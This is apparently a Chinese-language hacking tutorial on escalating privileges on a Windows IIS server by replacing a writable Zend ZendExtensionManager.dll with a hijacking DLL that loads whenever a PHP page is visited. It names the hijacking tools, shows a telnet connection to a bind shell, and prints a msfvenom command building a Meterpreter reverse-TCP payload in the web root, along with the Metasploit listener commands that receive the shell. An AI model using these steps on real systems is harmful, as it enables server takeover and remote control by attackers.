 ## 1、简介

在php里面有一个扩展是zend，这个是用解析php zend脚本加密文件。

如果服务器安装了zend，如果ZendExtensionManager.dll 权限可以修改，那就可以用其他dl替换这dll文件。

 查找ZendExtensionManager.dll 

C:\ZkeysSoft\Zend\ZendOptimizer-3.3.3\lib

![image-20210501151555300](../../acess/image-20210501151555300.png) 

用wt.asp 目录检测可写工具 检测权限是否可写

![image-20210501152415841](../../acess/image-20210501152415841.png) 

## **2、提权工具**

Zend_DLL_Hijacking.exe 这个是执行程序

Zend_DLL_Hijacking_for_nc.exe 这个是nc 正向连接

## 3、提权过程

**Zend_DLL_Hijacking_for_nc.exe 执行远控**

如果php装了Zend插件 就要查看这个目录的ZendExtensionManager.dll 是否可写，可写的情况下，修改文件名为nc.dll，就可以利用这个进行提权

需要的工具 cmd.exe、nc.exe  

![img](../../acess/sadsadsds.jpg) 

 生成ZendExtensionManager.dll 上传到lib目录下 

iis6.0 在启动的时候 或 收回进程重启启动的时候有人访问网站的时候就会加载 dll文件

当用户访问php网页的时候就会加载dll 

```bash
teletnt 192.168.31.115 4444
```

![image-20210501192755116](../../acess/image-20210501192755116.png) 

**Zend_DLL_Hijacking.exe 执行远控**

msfconsole 生成反弹shell

生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150 
set lport 12345
exploit
```

提权工具生成dll

![image-20210501193739112](../../acess/image-20210501193739112.png) 

当有人访问php网页的时候 就会加载dl 执行我们s.exe 那么 msf 就会监听到一个反弹shell

![image-20210501194925560](../../acess/image-20210501194925560.png) 
